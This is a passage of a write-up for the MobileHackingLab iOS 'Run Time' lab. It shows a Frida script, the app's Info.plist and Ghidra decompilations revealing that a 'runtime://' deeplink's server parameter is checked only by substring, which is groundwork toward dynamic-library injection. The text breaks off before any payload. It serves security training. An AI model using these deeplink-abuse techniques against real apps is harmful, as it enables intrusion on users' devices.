# MobileHackingLab - Run Time

This is an iOS mobile challenge from [MobileHackingLabs](https://www.mobilehackinglab.com/course/lab-runtime)

This challenge focuses on a fictitious app called Run Time, which is a fitness app that tracks the steps while running. 

**Objective**: Your task is to find your way to inject a dynamic library and execute code on the device.

When opening the application, the user is asked to login or signup:




When trying to signup, the keyboard is a little buggy, not allowing to tap on the "Create Local Account" button:



This is solved by running the following `frida` script as follows:

```javascript
function closeKeyboard(f=null){
    // Collect all Runtime's Controllers
    let controllers = Object.keys(ObjC.classes).filter(x => x.includes('Runtime') && x.includes('Controller'));   
    if(f != null){
        controllers = controllers.filter(x=>x.includes(f));
    }
    controllers.forEach((c, _) => {
        // Get the active instance for that controller, whether it exists
        ObjC.choose(ObjC.classes[c],{
        	onMatch: (instance) => {
                // use '- endEditing:' for closing the keyboard on the active controller's view
                ObjC.schedule(ObjC.mainQueue, function () {
        			instance.view()['- endEditing:']();
        		})
        	}, 
        	onComplete: () => {
        		// Do nothing
        	}
        })
    })
}
```



After invoking the function `closeKeyboard()`, the keyboard gets successfully closed, allowing to complete the signup process:


After logging in, the following screen is presented: 



When clicking on "Pro Pack", the following screen asks to subscribe or start a free trial in order to access pro functionalities:


However, when clicking on both, the following error page claiming that payments are not accepted in my country, is returned:


## Static & Dynamic Analysis

After reversing the IPA, by analysing the `Info.plist`, I've noticed that it's present a URL Scheme definition for the scheme `runtime`:



In the same `Info.plist`, `Runtime.SceneDelegate` is defined as the handler for this URL Scheme:



Following the complete `Info.plist`:

```
{
  "BuildMachineOSBuild" => "23G93"
  "CFBundleDevelopmentRegion" => "en"
  "CFBundleExecutable" => "Runtime"
  "CFBundleIcons" => {
    "CFBundlePrimaryIcon" => {
      "CFBundleIconFiles" => [
        0 => "AppIcon60x60"
      ]
      "CFBundleIconName" => "AppIcon"
    }
  }
  "CFBundleIdentifier" => "com.mobilehackinglab.runtime"
  "CFBundleInfoDictionaryVersion" => "6.0"
  "CFBundleName" => "Runtime"
  "CFBundlePackageType" => "APPL"
  "CFBundleShortVersionString" => "1.0"
  "CFBundleSupportedPlatforms" => [
    0 => "iPhoneOS"
  ]
  "CFBundleURLTypes" => [
    0 => {
      "CFBundleTypeRole" => "Viewer"
      "CFBundleURLName" => "com.mobilehackinglab.runtime"
      "CFBundleURLSchemes" => [
        0 => "runtime"
      ]
    }
  ]
  "CFBundleVersion" => "1"
  "DTCompiler" => "com.apple.compilers.llvm.clang.1_0"
  "DTPlatformBuild" => "21F77"
  "DTPlatformName" => "iphoneos"
  "DTPlatformVersion" => "17.5"
  "DTSDKBuild" => "21F77"
  "DTSDKName" => "iphoneos17.5"
  "DTXcode" => "1540"
  "DTXcodeBuild" => "15F31d"
  "LSRequiresIPhoneOS" => 1
  "MinimumOSVersion" => "15.4"
  "NSAccentColorName" => "AccentColor"
  "UIApplicationSceneManifest" => {
    "UIApplicationSupportsMultipleScenes" => 0
    "UISceneConfigurations" => {
      "UIWindowSceneSessionRoleApplication" => [
        0 => {
          "UISceneConfigurationName" => "Default Configuration"
          "UISceneDelegateClassName" => "Runtime.SceneDelegate"
          "UISceneStoryboardFile" => "Main"
        }
      ]
    }
  }
  "UIApplicationSupportsIndirectInputEvents" => 1
  "UIDeviceFamily" => [
    0 => 1
    1 => 2
  ]
  "UILaunchStoryboardName" => "LaunchScreen"
  "UIMainStoryboardFile" => "Main"
  "UIRequiredDeviceCapabilities" => [
    0 => "arm64"
  ]
  "UISupportedInterfaceOrientations~ipad" => [
    0 => "UIInterfaceOrientationPortrait"
    1 => "UIInterfaceOrientationPortraitUpsideDown"
    2 => "UIInterfaceOrientationLandscapeLeft"
    3 => "UIInterfaceOrientationLandscapeRight"
  ]
  "UISupportedInterfaceOrientations~iphone" => [
    0 => "UIInterfaceOrientationPortrait"
    1 => "UIInterfaceOrientationLandscapeLeft"
    2 => "UIInterfaceOrientationLandscapeRight"
  ]
}

```


After decompiling the app with `Ghidra`, I've found that this URL Scheme is used by the `trialSubscription` method in the class `Runtime.SubscribeController`:



Following the complete decompiled code:

```c
/* Runtime.SubscribeController.trialSubscription() -> () */

void __thiscall Runtime::SubscribeController::trialSubscription(SubscribeController *this)

{
  long lVar1;
  undefined *puVar2;
  URL UVar3;
  undefined8 uVar4;
  long extraout_x8;
  String SVar5;
  tuple2.conflict1 tVar6;
  undefined8 local_f0;
  undefined8 local_e8;
  undefined8 local_e0;
  undefined8 local_d8;
  undefined *local_d0;
  NSDictionary *local_c8;
  NSURL *local_c0;
  undefined *local_b8;
  code *local_b0;
  code *local_a8;
  NSURL *local_a0;
  undefined *local_98;
  uint local_8c;
  undefined *local_88;
  ulong local_80;
  ulong local_78;
  undefined *local_70;
  ulong local_68;
  long local_60;
  void *local_58;
  long local_50;
  long local_48;
  undefined4 local_3c;
  undefined *local_38;
  SubscribeController *local_30;
  long local_28;
  SubscribeController *local_20;
  
  local_88 = PTR_$$type_metadata_for_Any_1000246f8 + 8;
  local_28 = 0;
  local_30 = (SubscribeController *)0x0;
  puVar2 = &$$demangling_cache_variable_for_type_metadata_for_Foundation.URL?;
  local_20 = this;
  ___swift_instantiateConcreteTypeFromMangledName();
  local_80 = *(long *)(*(long *)(puVar2 + -8) + 0x40) + 0xfU & 0xfffffffffffffff0;
  (*(code *)PTR____chkstk_darwin_100024208)();
  lVar1 = (long)&local_f0 - local_80;
  local_48 = lVar1;
  local_38 = (undefined *)Foundation::URL::typeMetadataAccessor();
  local_50 = *(long *)(local_38 + -8);
  local_78 = *(long *)(local_50 + 0x40) + 0xfU & 0xfffffffffffffff0;
  (*(code *)PTR____chkstk_darwin_100024208)();
  puVar2 = (undefined *)(lVar1 - local_78);
  local_68 = extraout_x8 + 0xfU & 0xfffffffffffffff0;
  local_70 = puVar2;
  (*(code *)PTR____chkstk_darwin_100024208)();
  local_60 = (long)puVar2 - local_68;
  local_3c = 1;
  local_30 = this;
  local_28 = local_60;
  SVar5 = Swift::String::init("runtime://starttrial?server=mhl.pages.dev/runtime&trialKey=1234-5678-ABCD"
                              ,0x49,1);
  local_58 = SVar5.bridgeObject;
  Foundation::URL::$init();
  _swift_bridgeObjectRelease(local_58);
  lVar1 = local_48;
  (**(code **)(local_50 + 0x30))(local_48,local_3c,local_38);
  UVar3.unknown = local_70;
  if ((int)lVar1 == 1) {
    $$outlined_destroy_of_Foundation.URL?(local_48);
  }
  else {
    (**(code **)(local_50 + 0x20))(local_60,local_48,local_38);
    puVar2 = &_OBJC_CLASS_$_UIApplication;
    _objc_opt_self();
    _objc_msgSend();
    _objc_retainAutoreleasedReturnValue();
    local_b0 = *(code **)(local_50 + 0x10);
    local_98 = puVar2;
    (*local_b0)(UVar3.unknown,local_60,local_38);
    local_a0 = Foundation::URL::_bridgeToObjectiveC(UVar3);
    local_a8 = *(code **)(local_50 + 8);
    (*local_a8)(local_70,local_38);
    puVar2 = local_98;
    _objc_msgSend(local_98,"canOpenURL:",local_a0);
    local_8c = (uint)puVar2;
    _objc_release(local_a0);
    _objc_release(local_98);
    UVar3.unknown = local_70;
    if ((local_8c & 1) == 0) {
      (*local_a8)(local_60,local_38);
    }
    else {
      puVar2 = &_OBJC_CLASS_$_UIApplication;
      _objc_opt_self();
      _objc_msgSend();
      _objc_retainAutoreleasedReturnValue();
      local_b8 = puVar2;
      (*local_b0)(UVar3.unknown,local_60,local_38);
      local_c0 = Foundation::URL::_bridgeToObjectiveC(UVar3);
      (*local_a8)(local_70,local_38);
      ___swift_instantiateConcreteTypeFromMangledName
                (&
                 $$demangling_cache_variable_for_type_metadata_for_(__C.UIApplicationOpenExternalURLOptionsKey,Any)
                );
      local_f0 = 0;
      tVar6 = Swift::$_allocateUninitializedArray(0);
      local_e8 = tVar6._0_8_;
      uVar4 = local_f0;
      __C::UIApplicationOpenExternalURLOptionsKey::typeMetadataAccessor();
      local_e0 = uVar4;
      __C::UIApplicationOpenExternalURLOptionsKey::$lazy_protocol_witness_table_accessor();
      local_d8 = uVar4;
      local_d0 = (undefined *)Swift::Dictionary::$init();
      local_c8 = (extension_Foundation)::Swift::Dictionary::_bridgeToObjectiveC();
      _swift_bridgeObjectRelease(local_d0);
      _objc_msgSend(local_b8,"openURL:options:completionHandler:",local_c0,local_c8,0);
      _objc_release(local_c8);
      _objc_release(local_c0);
      _objc_release(local_b8);
      (*local_a8)(local_60,local_38);
    }
  }
  return;
}


```

I've then opened the same URL using the following command on the iPhone, after connecting with ssh:

```shell
uiopen "runtime://starttrial?server=mhl.pages.dev/runtime&trialKey=1234-5678-ABCD"
```




As result, the following error was received:



By analyzing the reversed code, I've noticed the method `verifyLicense` in class  `Runtime.SubscribeController`, which code is integrally reported below:

```c
/* Runtime.SubscribeController.verifyLicense(server: Swift.String, key: Swift.String) -> () */

void __thiscall
Runtime::SubscribeController::verifyLicense(SubscribeController *this,String server,String key)

{
  SubscribeController *pSVar1;
  bool bVar2;
  char *host_check_str;
  undefined7 extraout_var;
  undefined7 extraout_var_00;
  undefined *puVar3;
  Locale LVar4;
  String *pSVar5;
  long lVar6;
  URL UVar7;
  void *pvVar8;
  undefined8 uVar9;
  undefined8 uVar10;
  char *pcVar11;
  DefaultStringInterpolation DVar12;
  UIViewController *pUVar13;
  void *pvVar14;
  void *in_x5;
  long extraout_x8;
  long extraout_x8_00;
  long extraout_x8_01;
  double in_d0;
  String SVar15;
  String SVar16;
  tuple2.conflict1 tVar17;
  String SVar18;
  undefined8 auStack_390 [2];
  String local_380;
  String local_370;
  void *local_360;
  NSURL *local_358;
  long local_350;
  long local_348;
  code *local_340;
  void *local_338;
  undefined8 local_330;
  uint local_324;
  void *local_320;
  undefined **local_318;
  undefined8 local_310;
  DefaultStringInterpolation local_308;
  void *local_300;
  String local_2f8;
  uint local_2e4;
  undefined8 local_2e0;
  undefined4 local_2d4;
  String *local_2d0;
  undefined8 local_2c8;
  uint local_2bc;
  String *local_2b8;
  undefined8 local_2b0;
  undefined8 local_2a8;
  undefined8 local_2a0;
  undefined8 local_298;
  undefined *local_290;
  NSDictionary *local_288;
  NSURL *local_280;
  undefined *local_278;
  code *local_270;
  code *local_268;
  NSURL *local_260;
  undefined *local_258;
  uint local_24c;
  void *local_248;
  uint local_23c;
  void *local_238;
  undefined **local_230;
  undefined8 local_228;
  DefaultStringInterpolation local_220;
  void *local_218;
  void *local_210;
  uint local_204;
  SubscribeController *local_200;
  undefined *local_1f8;
  ulong local_1f0;
  long local_1e8;
  ulong local_1e0;
  long local_1d8;
  ulong local_1d0;
  long local_1c8;
  char *local_1c0;
  void *local_1b8;
  undefined *local_1b0;
  long local_1a8;
  ulong local_1a0;
  long local_198;
  ulong local_190;
  undefined *local_188;
  ulong local_180;
  long local_178;
  void *local_170;
  char *local_168;
  undefined *local_160;
  char *local_158;
  String *local_150;
  uint local_144;
  char *local_140;
  void *local_138;
  undefined *local_130;
  undefined8 local_128;
  long local_120;
  undefined *local_118;
  undefined4 local_110;
  undefined4 local_10c;
  code *local_108;
  undefined *local_100;
  code *local_f8;
  undefined *local_f0;
  char *local_e8;
  void *local_e0;
  undefined *local_d8;
  undefined8 local_d0;
  String *local_c8;
  undefined8 local_c0;
  byte local_b8;
  String local_b0;
  char *local_a0;
  void *local_98;
  String local_90;
  char *local_80;
  void *local_78;
  SubscribeController *local_70;
  SubscribeController *local_68;
  char *local_60;
  void *local_58;
  char *local_50;
  void *local_48;
  long local_40;
  long local_38;
  
  local_1b8 = key.bridgeObject;
  local_1c0 = key.str;
  local_170 = server.bridgeObject;
  local_168 = server.str;
  local_160 = PTR_$$type_metadata_for_Swift.String_100024408;
  local_1f8 = PTR_$$type_metadata_for_Any_1000246f8 + 8;
  local_38 = 0;
  local_40 = 0;
  local_50 = (char *)0x0;
  local_48 = (void *)0x0;
  local_60 = (char *)0x0;
  local_58 = (void *)0x0;
  local_68 = (SubscribeController *)0x0;
  local_70 = (SubscribeController *)0x0;
  local_120 = 0;
  puVar3 = &$$demangling_cache_variable_for_type_metadata_for_Foundation.Locale?;
  local_200 = this;
  ___swift_instantiateConcreteTypeFromMangledName();
  local_1f0 = *(long *)(*(long *)(puVar3 + -8) + 0x40) + 0xfU & 0xfffffffffffffff0;
  (*(code *)PTR____chkstk_darwin_100024208)();
  lVar6 = (long)&local_380 - local_1f0;
  puVar3 = &$$demangling_cache_variable_for_type_metadata_for_Foundation.URL?;
  local_1e8 = lVar6;
  ___swift_instantiateConcreteTypeFromMangledName();
  local_1e0 = *(long *)(*(long *)(puVar3 + -8) + 0x40) + 0xfU & 0xfffffffffffffff0;
  (*(code *)PTR____chkstk_darwin_100024208)();
  lVar6 = lVar6 - local_1e0;
  local_1d0 = extraout_x8 + 0xfU & 0xfffffffffffffff0;
  local_1d8 = lVar6;
  (*(code *)PTR____chkstk_darwin_100024208)();
  lVar6 = lVar6 - local_1d0;
  local_1c8 = lVar6;
  local_1b0 = (undefined *)Foundation::URL::typeMetadataAccessor();
  local_1a8 = *(long *)(local_1b0 + -8);
  local_1a0 = *(long *)(local_1a8 + 0x40) + 0xfU & 0xfffffffffffffff0;
  host_check_str = local_168;
  pvVar8 = local_170;
  pcVar11 = local_1c0;
  pvVar14 = local_1b8;
  (*(code *)PTR____chkstk_darwin_100024208)();
  lVar6 = lVar6 - local_1a0;
  local_190 = extraout_x8_00 + 0xfU & 0xfffffffffffffff0;
  local_198 = lVar6;
  local_38 = lVar6;
  (*(code *)PTR____chkstk_darwin_100024208)();
  puVar3 = (undefined *)(lVar6 - local_190);
  local_180 = extraout_x8_01 + 0xfU & 0xfffffffffffffff0;
  local_188 = puVar3;
  (*(code *)PTR____chkstk_darwin_100024208)();
  lVar6 = (long)puVar3 - local_180;
  local_178 = lVar6;
  local_68 = this;
  local_60 = pcVar11;
  local_58 = pvVar14;
  local_50 = host_check_str;
  local_48 = pvVar8;
  local_40 = lVar6;
  _objc_retain(this);
  local_80 = local_168;
  local_78 = local_170;
  local_70 = this;
  local_90 = Swift::String::init("mhl.pages.dev",0xd,1);
  host_check_str = local_90.str;
  local_150 = &local_90;
  Swift::String::$lazy_protocol_witness_table_accessor();
  local_158 = host_check_str;
  bVar2 = (extension_Foundation)::Swift::StringProtocol::$contains
                    (local_150,local_160,local_160,host_check_str);
  local_144 = (uint)CONCAT71(extraout_var,bVar2);
  $$outlined_destroy_of_Swift.String(local_150);
  if ((local_144 & 1) == 0) {
    pUVar13 = (UIViewController *)0x1;
    local_380 = Swift::String::init("Invalid Server",0xe,1);
    $showToast(local_380,in_d0,pUVar13);
    showToast(local_380,in_d0,(UIViewController *)local_200);
    _swift_bridgeObjectRelease(local_380.bridgeObject);
  }
  else {
    SVar15 = Swift::String::init("buypro",6,1);
    local_210 = SVar15.bridgeObject;
    SVar16.bridgeObject = local_1b8;
    SVar16.str = local_1c0;
    SVar18.bridgeObject = in_x5;
    SVar18.str = host_check_str;
    bVar2 = Swift::String::==_infix(SVar16,SVar15,SVar18);
    local_204 = (uint)CONCAT71(extraout_var_00,bVar2);
    _swift_bridgeObjectRelease(local_210);
    if ((local_204 & 1) != 0) {
      uVar9 = 1;
      local_130 = (undefined *)Swift::DefaultStringInterpolation::init(0x20,1);
      local_230 = &local_130;
      local_23c = 1;
      DVar12.unknown = (undefined *)0x1;
      local_128 = uVar9;
      SVar16 = Swift::String::init("http://",7,1);
      local_248 = SVar16.bridgeObject;
      Swift::DefaultStringInterpolation::appendLiteral(SVar16,DVar12);
      _swift_bridgeObjectRelease(local_248);
      local_140 = local_168;
      local_138 = local_170;
      Swift::DefaultStringInterpolation::$appendInterpolation
                (&local_140,local_160,
                 PTR_$$protocol_witness_table_for_Swift.String_:_Swift.CustomStringConvertible_in_Swift_100024620
                 ,
                 PTR_$$protocol_witness_table_for_Swift.String_:_Swift.TextOutputStreamable_in_Swift_100024720
                );
      DVar12.unknown = (undefined *)(ulong)(local_23c & 1);
      SVar16 = Swift::String::init("/payment?license_type=pro",0x19,(__int8)(local_23c & 1));
      local_238 = SVar16.bridgeObject;
      Swift::DefaultStringInterpolation::appendLiteral(SVar16,DVar12);
      _swift_bridgeObjectRelease(local_238);
      local_220.unknown = local_130;
      local_228 = local_128;
      _swift_bridgeObjectRetain();
      $$outlined_destroy_of_Swift.DefaultStringInterpolation(local_230);
      SVar16 = Swift::String::init(local_220);
      local_218 = SVar16.bridgeObject;
      Foundation::URL::$init();
      _swift_bridgeObjectRelease(local_218);
      lVar6 = local_1c8;
      (**(code **)(local_1a8 + 0x30))(local_1c8,1,local_1b0);
      UVar7.unknown = local_188;
      if ((int)lVar6 == 1) {
        $$outlined_destroy_of_Foundation.URL?(local_1c8);
      }
      else {
        (**(code **)(local_1a8 + 0x20))(local_178,local_1c8,local_1b0);
        puVar3 = &_OBJC_CLASS_$_UIApplication;
        _objc_opt_self();
        _objc_msgSend();
        _objc_retainAutoreleasedReturnValue();
        local_270 = *(code **)(local_1a8 + 0x10);
        local_258 = puVar3;
        (*local_270)(UVar7.unknown,local_178,local_1b0);
        local_260 = Foundation::URL::_bridgeToObjectiveC(UVar7);
        local_268 = *(code **)(local_1a8 + 8);
        (*local_268)(local_188,local_1b0);
        puVar3 = local_258;
        _objc_msgSend(local_258,"canOpenURL:",local_260);
        local_24c = (uint)puVar3;
        _objc_release(local_260);
        _objc_release(local_258);
        UVar7.unknown = local_188;
        if ((local_24c & 1) == 0) {
          (*local_268)(local_178,local_1b0);
        }
        else {
          puVar3 = &_OBJC_CLASS_$_UIApplication;
          _objc_opt_self();
          _objc_msgSend();
          _objc_retainAutoreleasedReturnValue();
          local_278 = puVar3;
          (*local_270)(UVar7.unknown,local_178,local_1b0);
          local_280 = Foundation::URL::_bridgeToObjectiveC(UVar7);
          (*local_268)(local_188,local_1b0);
          ___swift_instantiateConcreteTypeFromMangledName
                    (&
                     $$demangling_cache_variable_for_type_metadata_for_(__C.UIApplicationOpenExternalURLOptionsKey,Any)
                    );
          local_2b0 = 0;
          tVar17 = Swift::$_allocateUninitializedArray(0);
          local_2a8 = tVar17._0_8_;
          uVar9 = local_2b0;
          __C::UIApplicationOpenExternalURLOptionsKey::typeMetadataAccessor();
          local_2a0 = uVar9;
          __C::UIApplicationOpenExternalURLOptionsKey::$lazy_protocol_witness_table_accessor();
          local_298 = uVar9;
          local_290 = (undefined *)Swift::Dictionary::$init();
          local_288 = (extension_Foundation)::Swift::Dictionary::_bridgeToObjectiveC();
          _swift_bridgeObjectRelease(local_290);
          _objc_msgSend(local_278,"openURL:options:completionHandler:",local_280,local_288,0);
          _objc_release(local_288);
          _objc_release(local_280);
          _objc_release(local_278);
          (*local_268)(local_178,local_1b0);
        }
      }
      _objc_release(local_200);
      return;
    }
    local_a0 = local_1c0;
    local_98 = local_1b8;
    local_2d4 = 1;
    local_b0 = Swift::String::init("^[0-9]{4}-[0-9]{4}-[A-Z]{4}$",0x1c,1);
    local_2d0 = &local_b0;
    local_2e0 = 0;
    LVar4 = Foundation::Locale::typeMetadataAccessor();
    (**(code **)(*(long *)(LVar4.unknown + -8) + 0x38))(local_1e8,1);
    host_check_str = local_158;
    pSVar5 = local_2d0;
    uVar9 = local_2e0;
    *(char **)(lVar6 + -0x10) = local_158;
    *(char **)(lVar6 + -8) = host_check_str;
    uVar10 = 0x400;
    (extension_Foundation)::Swift::StringProtocol::$range();
    local_2bc = (uint)uVar9;
    local_2c8 = uVar10;
    local_2b8 = pSVar5;
    $$outlined_destroy_of_Foundation.Locale?(local_1e8);
    $$outlined_destroy_of_Swift.String(local_2d0);
    local_c8 = local_2b8;
    local_c0 = local_2c8;
    local_b8 = (byte)local_2bc & 1;
    local_2e4 = (uint)((local_2bc & 1) != 0);
    if (local_2e4 != 0) {
      pUVar13 = (UIViewController *)0x1;
      local_2f8 = Swift::String::init("Invalid license format",0x16,1);
      $showToast(local_2f8,in_d0,pUVar13);
      showToast(local_2f8,in_d0,(UIViewController *)local_200);
      _swift_bridgeObjectRelease(local_2f8.bridgeObject);
      _objc_release(local_200);
      return;
    }
    uVar9 = 1;
    local_d8 = (undefined *)Swift::DefaultStringInterpolation::init(0xe,1);
    local_318 = &local_d8;
    local_330 = 7;
    local_324 = 1;
    DVar12.unknown = (undefined *)0x1;
    local_d0 = uVar9;
    SVar16 = Swift::String::init("http://",7,1);
    local_338 = SVar16.bridgeObject;
    Swift::DefaultStringInterpolation::appendLiteral(SVar16,DVar12);
    _swift_bridgeObjectRelease(local_338);
    local_e8 = local_168;
    local_e0 = local_170;
    Swift::DefaultStringInterpolation::$appendInterpolation
              (&local_e8,local_160,
               PTR_$$protocol_witness_table_for_Swift.String_:_Swift.CustomStringConvertible_in_Swift_100024620
               ,
               PTR_$$protocol_witness_table_for_Swift.String_:_Swift.TextOutputStreamable_in_Swift_100024720
              );
    DVar12.unknown = (undefined *)(ulong)(local_324 & 1);
    SVar16 = Swift::String::init("/health",(__int16)local_330,(__int8)(local_324 & 1));
    local_320 = SVar16.bridgeObject;
    Swift::DefaultStringInterpolation::appendLiteral(SVar16,DVar12);
    _swift_bridgeObjectRelease(local_320);
    local_308.unknown = local_d8;
    local_310 = local_d0;
    _swift_bridgeObjectRetain();
    $$outlined_destroy_of_Swift.DefaultStringInterpolation(local_318);
    SVar16 = Swift::String::init(local_308);
    local_300 = SVar16.bridgeObject;
    Foundation::URL::$init();
    _swift_bridgeObjectRelease(local_300);
    lVar6 = local_1d8;
    (**(code **)(local_1a8 + 0x30))(local_1d8,1,local_1b0);
    pSVar1 = local_200;
    if ((int)lVar6 == 1) {
      $$outlined_destroy_of_Foundation.URL?(local_1d8);
      pUVar13 = (UIViewController *)0x1;
      local_370 = Swift::String::init("Invalid URL",0xb,1);
      $showToast(local_370,in_d0,pUVar13);
      showToast(local_370,in_d0,(UIViewController *)local_200);
      _swift_bridgeObjectRelease(local_370.bridgeObject);
      _objc_release(local_200);
      return;
    }
    lVar6 = local_198;
    (**(code **)(local_1a8 + 0x20))(local_198,local_1d8,local_1b0);
    (**(code **)((*(ulong *)pSVar1 & *(ulong *)PTR__swift_isaMask_100024630) + 0x58))();
    UVar7.unknown = local_188;
    local_350 = lVar6;
    (**(code **)(local_1a8 + 0x10))(local_188,local_198,local_1b0);
    local_358 = Foundation::URL::_bridgeToObjectiveC(UVar7);
    local_340 = *(code **)(local_1a8 + 8);
    (*local_340)(local_188,local_1b0);
    _objc_retain(local_200);
    _objc_retain(local_200);
    _swift_bridgeObjectRetain(local_170);
    puVar3 = &DAT_100024948;
    _swift_allocObject(&DAT_100024948,0x30,7);
    *(SubscribeController **)(puVar3 + 0x10) = local_200;
    *(SubscribeController **)(puVar3 + 0x18) = local_200;
    *(char **)(puVar3 + 0x20) = local_168;
    *(void **)(puVar3 + 0x28) = local_170;
    local_f8 = 
    $$partial_apply_forwarder_for_closure_#1_@Sendable_(Foundation.Data?,__C.NSURLResponse?,Swift.Error?)_->_()_in_Runtime.SubscribeController.verifyLicense(server:_Swift.String,key:_Swift.String)_->_()
    ;
    local_118 = PTR___NSConcreteStackBlock_100024248;
    local_110 = 0x42000000;
    local_10c = 0;
    local_108 = 
    $$reabstraction_thunk_helper_from_@escaping_@callee_guaranteed_@Sendable_(@guaranteed_Foundation.Data?,@guaranteed___C.NSURLResponse?,@guaranteed_Swift.Error?)_->_()_to_@escaping_@callee_unowned_@convention(block)_@Sendable_(@unowned___C.NSData?,@unowned___C.NSURLResponse?,@unowned___C.NSError?)_->_()
    ;
    local_100 = &_block_descriptor;
    local_f0 = puVar3;
    local_360 = __Block_copy(&local_118);
    _swift_release(local_f0);
    lVar6 = local_350;
    _objc_msgSend(local_350,"dataTaskWithURL:completionHandler:",local_358,local_360);
    _objc_retainAutoreleasedReturnValue();
    local_348 = lVar6;
    __Block_release(local_360);
    _objc_release(local_358);
    _objc_release(local_350);
    local_120 = local_348;
    _objc_msgSend(local_348,"resume");
    _objc_release(local_348);
    (*local_340)(local_198,local_1b0);
  }
  _objc_release(local_200);
  return;
}

```

In this code there are some interesting hotspots; lines from 199 to 214 seem to be checking that the value specified for the deeplink's parameter `server` contains the value `mhl.pages.dev`:



Then, lines from 216 to 308 check if the action specified in the deeplink is `buypro`; when this is true, the application opens a web view to the url `http://<server value>/payment?license_type=pro`:




However, this results in the same web page returning the "payments not accepted" error:


Continuing with the code analysis, when the action specified is `starttrial`, firstly, the value specified in the parameter `trialKey` is matched against the regex `^[0-9]{4}-[0-9]{4}-[A-Z]{4}$`:



Then an HTTP request is sent to the URL `http://<server value>/health`:



Following the request intercepted using `Burpsuite`, specifying `mhl.pages.dev`as `server`value:



The HTTP request is actually handled by the following lambda function, which on his turn, invokes the lambda `$$closure_#1_@Sendable_(Foundation.Data?,__C.NSURLResponse?,Swift.Error?)_->_()_in_Runtime.SubscribeController.verifyLicense`:



Following the complete lambda code:

```c

void $$closure_#1_@Sendable_(Foundation.Data?,__C.NSURLResponse?,Swift.Error?)_->_()_in_Runtime.SubscribeController.verifyLicense(server:_Swift.String,key:_Swift.String)_->_()
               (double param_1,Data param_2,ulong param_3,long param_4,long param_5,
               UIViewController *param_6,ulong *param_7,undefined8 param_8,undefined8 param_9)

{
  undefined *puVar1;
  undefined8 uVar2;
  _Representation _Var3;
  bool bVar4;
  long status_code;
  undefined *json_response;
  NSData *pNVar5;
  undefined *puVar6;
  long *plVar7;
  char **ppcVar8;
  undefined8 uVar9;
  UIViewController *pUVar10;
  char *pcVar11;
  ulong *puVar12;
  String SVar13;
  String SVar14;
  String SVar15;
  void *local_360;
  void *local_348;
  void *local_338;
  void *local_320;
  void *local_308;
  char *local_2e0;
  void *local_2d8;
  char *local_2c8;
  void *local_2c0;
  void *local_2a0;
  long local_288;
  void *local_220;
  void *local_1f8;
  long local_1d8;
  long local_1c0;
  void *local_1b0;
  char *local_130;
  void *local_128;
  char *local_120;
  void *local_118;
  String local_110;
  long local_100;
  long local_f8;
  undefined8 local_f0;
  undefined8 local_e8;
  undefined8 local_e0;
  long local_d8;
  undefined8 local_d0;
  undefined8 local_c8;
  ulong *local_c0;
  UIViewController *local_b8;
  long local_b0;
  long local_a8;
  undefined1 auStack_a0 [24];
  long local_88;
  undefined1 auStack_80 [32];
  undefined8 local_60;
  undefined *local_58;
  ulong local_50;
  undefined *local_48;
  ulong local_40;
  long local_38;
  
  puVar1 = PTR_$$type_metadata_for_Any_1000246f8 + 8;
  local_38 = *(long *)PTR____stack_chk_guard_100024260;
  local_d8 = 0;
  local_58 = (undefined *)0x0;
  local_50 = 0;
  local_f0 = 0;
  local_100 = 0;
  local_120 = (char *)0x0;
  local_118 = (void *)0x0;
  puVar12 = param_7;
  local_d0 = param_8;
  local_c8 = param_9;
  local_c0 = param_7;
  local_b8 = param_6;
  local_b0 = param_5;
  local_a8 = param_4;
  local_48 = param_2.unknown;
  local_40 = param_3;
  _swift_errorRetain();
  if (param_5 == 0) {
    _objc_retain(param_4);
    if (param_4 == 0) {
      local_1c0 = 0;
    }
    else {
      json_response = &_OBJC_CLASS_$_NSHTTPURLResponse;
      _objc_opt_self(&_OBJC_CLASS_$_NSHTTPURLResponse);
      local_1d8 = param_4;
      _swift_dynamicCastObjCClass(param_4,json_response);
      if (local_1d8 == 0) {
        _objc_release(param_4);
        local_1d8 = 0;
      }
      local_1c0 = local_1d8;
    }
    if (local_1c0 == 0) {
      pUVar10 = (UIViewController *)0x1;
      SVar13 = Swift::String::init("Unexpected response from server",0x1f,1);
      Runtime::$showToast(SVar13,param_1,pUVar10);
      Runtime::showToast(SVar13,param_1,param_6);
      local_1f8 = SVar13.bridgeObject;
      _swift_bridgeObjectRelease(local_1f8);
    }
    else {
      local_d8 = local_1c0;
      status_code = local_1c0;
      _objc_msgSend(local_1c0,"statusCode");
      if (status_code == 200) {
        $outlined_copy();
        if ((param_3 & 0xf000000000000000) == 0xf000000000000000) {
          pUVar10 = (UIViewController *)0x1;
          SVar13 = Swift::String::init("Malformed response from server",0x1e,1);
          Runtime::$showToast(SVar13,param_1,pUVar10);
          Runtime::showToast(SVar13,param_1,param_6);
          local_220 = SVar13.bridgeObject;
          _swift_bridgeObjectRelease(local_220);
          _objc_release(local_1c0);
        }
        else {
          local_60 = 0;
          json_response = &_OBJC_CLASS_$_NSJSONSerialization;
          local_58 = param_2.unknown;
          local_50 = param_3;
          _objc_opt_self();
          _Var3.value = (__int8)param_2.unknown;
          outlined_copy(_Var3);
          pNVar5 = Foundation::Data::_bridgeToObjectiveC(param_2);
          outlined_consume(_Var3);
          __C::NSJSONReadingOptions::typeMetadataAccessor();
          Swift::$_allocateUninitializedArray(0);
          __C::NSJSONReadingOptions::$lazy_protocol_witness_table_accessor();
          (extension_Swift)::Swift::SetAlgebra::$init();
          local_e8 = local_60;
          _objc_msgSend(json_response,"JSONObjectWithData:options:error:",pNVar5,local_e0,&local_e8)
          ;
          _objc_retainAutoreleasedReturnValue();
          uVar2 = local_e8;
          _objc_retain();
          uVar9 = local_60;
          local_60 = uVar2;
          _objc_release(uVar9);
          _objc_release(pNVar5);
          uVar2 = local_60;
          if (json_response == (undefined *)0x0) {
            uVar9 = local_60;
            Foundation::$_convertNSErrorToError();
            _objc_release(uVar2);
            _swift_willThrow();
            _swift_errorRetain(uVar9);
            pUVar10 = (UIViewController *)0x1;
            local_f0 = uVar9;
            SVar13 = Swift::String::init("Malformed response from server",0x1e,1);
            Runtime::$showToast(SVar13,param_1,pUVar10);
            Runtime::showToast(SVar13,param_1,param_6);
            local_360 = SVar13.bridgeObject;
            _swift_bridgeObjectRelease(local_360);
            _swift_errorRelease(uVar9);
            _swift_errorRelease(uVar9);
          }
          else {
            Swift::$_bridgeAnyObjectToAny();
            puVar6 = &$$demangling_cache_variable_for_type_metadata_for_[Swift.String_:_Any];
            ___swift_instantiateConcreteTypeFromMangledName
